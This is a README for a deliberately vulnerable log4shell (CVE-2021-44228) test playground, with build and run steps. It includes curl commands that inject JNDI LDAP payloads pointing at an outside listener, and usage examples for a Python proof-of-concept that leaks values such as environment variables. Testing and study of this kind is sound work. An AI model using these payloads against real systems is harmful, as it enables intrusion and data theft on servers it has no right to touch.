


# log4jpwn

log4j rce test environment. See: <https://www.lunasec.io/docs/blog/log4j-zero-day/>

This repository contains an intentionally vulnerable playground to play with CVE-2021-44228 (aka: log4shell)

Experiments to trigger the vulnerability in various software products mentioned [here](https://github.com/NCSC-NL/log4shell/tree/main/software) can be found in the [vuln-software/](vuln-software/) directory.

## examples



using the included python poc



## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t log4jpwn .`

## run

The server will log 3 things (which are also the triggers). You don't have to set all 3:

- The `User-Agent` header content
- The request path
- The `pwn` query string parameter

To use:

- Run the container with `docker run --rm -p8080:8080 log4jpwn` (or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080`, where 172.16.182.1 is where my netcat lister is running.

A complete example for all 3 bits that gets logged:

```bash
curl -v -H 'User-Agent: ${jndi:ldap://192.168.0.1:443/a}' 'localhost:8080/${jndi:ldap://192.168.0.1:443/a}/?pwn=$\{jndi:ldap://192.168.0.1:443/a\}'
```

## run - exploit

The python exploit will leak values. By default it will try `${java:version}`, but you can specify anything with the `--leak` flag.

Usage is:

```text
❯ ./pwn.py --help
usage: pwn.py [-h] --target TARGET [--listen-host LISTEN_HOST] [--listen-port LISTEN_PORT] --exploit-host EXPLOIT_HOST [--leak LEAK]

a simple log4j <=2.14 information disclosure poc (ref: https://twitter.com/Black2Fan/status/1470281005038817284)

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target uri
  --listen-host LISTEN_HOST
                        exploit server host to listen on (default: 127.0.0.1)
  --listen-port LISTEN_PORT, -lp LISTEN_PORT
                        exploit server port to listen on (default: 8888)
  --exploit-host EXPLOIT_HOST, -eh EXPLOIT_HOST
                        host where (this) exploit server is reachable
  --leak LEAK, -l LEAK  value to leak. see: https://twitter.com/Rayhan0x01/status/1469571563674505217 (default: ${java:version})
```

Example runs:

- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --leak '${env:SHELL}'`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --listen-port 5555`
